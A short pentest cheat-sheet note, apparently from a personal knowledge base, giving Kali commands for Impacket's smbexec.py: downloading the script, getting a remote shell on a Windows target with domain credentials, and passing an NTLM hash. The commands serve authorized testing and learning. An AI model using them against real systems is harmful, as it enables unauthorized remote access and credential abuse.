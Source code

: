 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```python - kali
python3 /usr/share/doc/python3-impacket/examples/smbexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

or

```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbexec.py
```

#### Shell with smbexec.py
```python - kali
smbexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```python - kali
smbexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
